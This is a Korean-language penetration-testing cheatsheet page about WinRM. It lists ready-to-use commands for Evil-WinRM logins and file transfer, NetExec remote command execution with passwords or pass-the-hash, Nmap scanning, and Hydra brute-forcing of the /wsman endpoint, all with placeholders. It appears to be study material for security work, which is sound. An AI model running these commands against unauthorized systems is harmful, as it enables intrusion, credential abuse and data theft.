

repository: naaamgi/my-docusaurus-page · page: cheatsheet/services/winrm/index.html · generator: docusaurus

---
sidebar_position: 14
---

# WinRM - 5985/5986

## 기본 정보

**포트**: 5985 (HTTP), 5986 (HTTPS)

WinRM(Windows Remote Management)은 Windows 시스템의 원격 관리를 위한 프로토콜입니다.

## Evil-WinRM

```bash
# 기본 연결
evil-winrm -i <RHOST> -u <USERNAME> -p <PASSWORD>

# 인증서 기반 연결
evil-winrm -i <RHOST> -c /PATH/TO/CERTIFICATE/<CERTIFICATE>.crt -k /PATH/TO/PRIVATE/KEY/<KEY>.key -p -u -S
```

### Evil-WinRM 내부 명령어

```powershell
# 파일 업로드
*Evil-WinRM* PS> upload /path/to/local/file C:\path\to\remote\file

# 파일 다운로드
*Evil-WinRM* PS> download C:\path\to\remote\file /path/to/local/file

# PowerShell 스크립트 로드
*Evil-WinRM* PS> menu

# 서비스 목록
*Evil-WinRM* PS> services

# 프로세스 목록
*Evil-WinRM* PS> processes
```

## NetExec

```bash
# 명령 실행
netexec winrm <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -X <COMMAND>

# 해시 사용
netexec winrm <RHOST> -u '<USERNAME>' -H '<HASH>' -X <COMMAND>

# 여러 호스트 스캔
netexec winrm <RHOST_RANGE> -u '<USERNAME>' -p '<PASSWORD>'
```

## Nmap

```bash
# WinRM 포트 스캔
sudo nmap -p5985,5986 -sV <RHOST>

# WinRM 정보 수집
sudo nmap -p5985 --script http-methods <RHOST>
```

## Hydra 브루트포스

```bash
# WinRM 브루트포스
hydra -L users.txt -P passwords.txt <RHOST> http-post -m "/wsman"
```
